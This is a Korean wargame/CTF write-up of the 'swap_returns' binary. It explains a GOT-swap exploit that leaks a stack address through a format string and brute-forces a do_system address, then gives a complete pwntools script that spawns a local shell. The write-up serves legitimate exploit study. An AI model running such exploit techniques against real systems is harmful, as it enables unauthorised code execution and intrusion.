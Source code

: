 ```yaml
---
layout: post
title: "swap"
comments : true
category : War Game
---
```


# 문제
***

swap_returns 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
swap_returns: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=777bd9bf561cb7af8c22b442f1c146e85f7395c4, not stripped
```

바이너리 코드

__main()__ 
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  ...
  
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(*(_QWORD *)&argc, argv);
      v3 = read_int();
      if ( v3 != 2 )
        break;
      v6 = *v4;
      *v4 = *v5;
      *v5 = v6;
      v6 = 0LL;
    }
    if ( v3 == 3 )
    {
      printf("Bye. ");
      _exit(0);
    }
    if ( v3 == 1 )
    {
      puts("1st address: ");
      __isoc99_fscanf(stdin, "%lu", &v4);
      puts("2nd address: ");
      argv = (const char **)"%lu";
      *(_QWORD *)&argc = stdin;
      __isoc99_fscanf(stdin, "%lu", &v5);
    }
    else
    {
      printf("Invalid choice. ");
    }
  }
}
```

__read_int()__
```
__int64 read_int()
{
  __int16 buf; // [rsp+6h] [rbp-Ah]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  read(0, &buf, 2uLL);
  return (unsigned int)atoi((const char *)&buf);
}
```

기능은 매우 간단하다. scanf를 통해서 입력한 두 개의 주소에 들어 있는 값을 서로 xchg 해준다. <br/><br/>
이를 통해서 got overwrite를 할 수 있다. 하지만 got를 내가 넣어준 입력값으로 변경할 수는 없다. (user input으로 overwrite가 불가능하다.) <br/><br/>

여기서 우리가 입력으로 넣으줄 수 있는 곳은 (우리가 유일하게 control 할 수 있는 부분) __read_int()__ 함수의 2바이트를 read하는 부분밖에 없다.  

## exploit 과정
1. atoi_got와 printf_got 값을 서로 바꾸면 buf에 %p를 통해서 rsi에 들어 있는 buf의 주소를 leak할 수 있다.  
2. 다음 __read_int()__ 함수 호출 때 buf에 2바이트 값을 넣어주면 다시 atoi_got와 printf_got 값을 서로 바꿀 수 있다. (printf의 ret값은 출력한 문자열 개수)
3. 스택에 있는 값들을 잘 조합해서 메모리의 특정 영역에 system 함수의 주소를 만든다. 
    - 앞에서 호출된 printf가 내부적으로 vfprintf를 호출하기 때문에 stack에 vfprintf 함수 관련 주소가 존재한다. 주어진 libc.so.6에서 vfprintf와 system 함수의 offset 차이는 0x81f0이다. 
    -  system 함수의 하위 12bit는 특정 값으로 고정되어 있다. 
    -  system 함수의 13 - 16 bit 값이 8을 넘으면 vfprintf 함수와 system 함수의 17 - 20bit 값이 다르다. (1차이 발생)
    - 따라서 system 함수의 주소를 맞출 확률은 (13 - 16비트 값이 8보다 작을 확률) X (0 -7 사이의 숫자 중 정답을 맞출 확률)이 된다. 즉 1/16이다. 
4. 스택에 있는 값을 조합해서 만든 system 함수의 주소를 atoi의 got 값과 바꾼 후 read 함수에 "sh"를 인자로 준다. system 함수의 주소를 맞추면 쉘을 딸 수 있다.

<br/><br/>
=> 여기에서는 system 함수 내부에서 호출하는 do_system 함수의 주소가 더 만들기 쉬워서 do_system 함수를 이용했다.(do_system과 system 함수의 offset 차이는 0x580이다.)<br/><br/>

c.f) 만약 printf가 한 번도 호출되지 않았을 때 1번을 수행하고 atoi를 호출하면 printf 호출 과정에 의해서 printf_got에 저장되어 있는 atoi_got 값을 printf의 주소값으로 덮어쓰게 된다. 따라서 다시 swap하고 atoi를 호출해도 printf가 호출된다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def sel_num(num):
	p.recvuntil(": \n")
	p.send(num)

file_path="/home/sungyun/round3/swap/swap_returns"


while(1):
	p=process(file_path, env={"LD_PRELOAD" : "/home/sungyun/round3/swap/libc.so.6"})

	printf_got=0x601038
	atoi_got=0x601050
	setvbuf_got=0x601048
	bss_sec=0x6014c0

	sel_num("go")

	sel_num("1")

	p.recvuntil(": \n")
	p.sendline(str(printf_got))
	p.recvuntil(": \n")
	p.sendline(str(atoi_got))

	sel_num("2")
	sel_num("%p")
	stack=int(p.recv(14),16)
	
	sel_num("%s")
	print hex(stack)
	
	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(stack-0x630))
	p.recvuntil(": \n")
	p.sendline(str(bss_sec))

	sel_num("77")

	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec-4))
	p.recvuntil(": \n")
	p.sendline(str(stack-0x508-5)) 
	
	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec-5))
	p.recvuntil(": \n")
	#p.sendline(str(stack-0x681)) #0x30
	p.sendline(str(stack-0x95))   #0x32
	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec+2))
	p.recvuntil(": \n")
	p.sendline(str(atoi_got))

	sel_num("2")

	sel_num("sh")
	p.sendline("pwd")

	try:
		msg=p.recv()
		if "2. Swap" in msg:
			continue
		break
	except:
		p.close()

p.interactive()
```

